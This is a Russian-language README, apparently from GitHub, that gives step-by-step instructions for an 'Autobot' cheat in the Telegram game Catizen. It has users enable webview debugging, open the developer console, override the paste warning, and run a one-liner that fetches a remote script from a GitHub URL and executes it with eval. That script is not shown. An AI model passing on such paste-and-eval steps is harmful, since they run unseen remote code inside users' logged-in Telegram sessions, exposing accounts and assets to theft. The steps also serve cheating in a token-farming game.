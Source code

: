 # Инструкция по использованию взлома Автобота в игре Catizen
##### По всем вопросам пишите мне в личку в Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Откройте десктопный Telegram-клиент.
#### 2. Перейдите в Settings - Advanced - Experimental Settings.
#### 3. Пролистайте вниз, найдите опцию Enable webview expecting, включите её.
#### 4. Перезагрузите клиент Telegram.
#### 5. Зайдите в Catizen, кликните по игровому полю, где играются котики.
#### 6. Нажмите комбинацию клавиш Ctrl + Shift + i, откроется консоль разработчика.
#### 7. Разрешите ввод в консоль: введите что-то и отправьте в консоль, система сама подскажет что вписать, чтобы разрешить ввод.
#### 8. Вставьте код ниже и отправьте
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/RUSSIAN/Catizen-script-v1.2.js'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Подождите пару секунд, переходите в игру, включайте Автобота и фармите $CATS!
#### 10. Теперь каждый раз при запуске игры необходимо повторять шаги с 5 по 9, чтобы активировать Автобота.
